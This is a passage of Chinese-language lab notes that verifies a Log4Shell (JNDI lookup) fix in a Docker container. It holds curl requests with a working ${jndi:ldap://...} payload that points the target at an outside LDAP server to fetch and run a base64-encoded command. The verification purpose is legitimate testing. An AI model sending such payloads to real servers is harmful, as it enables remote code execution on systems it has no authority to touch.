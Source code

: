 ##### 2. 测试漏洞

发送一个与利用时使用的测试负载类似的请求：

```bash
# 发送带有JNDI查找的测试负载
curl -X GET "http://10.37.133.3:47147/hello?payload=  \${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```

如果执行此负载，它将尝试在 `/tmp/test_exploit`处创建一个文件。

##### 如何验证：

```bash
# 检查应用程序是否仍能正常运行（应返回正常响应）
curl -X GET "http://10.37.133.3:47147/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```

![1742796931976](image/网络安全丁梦/1742796931976.png)

```bash
# 连接到容器以检查利用命令是否被执行
docker exec -it musing_lichterman /bin/bash
ls -la /tmp/test_exploit  # 如果修复有效，此文件不应存在
```

![1742796893667](image/网络安全丁梦/1742796893667.png)

##### 额外验证：

检查应用程序日志以获取修复的证据：

```bash
# 查看应用程序日志
docker logs musing_lichterman | grep -i jndi
```

![1742796975349](image/网络安全丁梦/1742796975349.png)
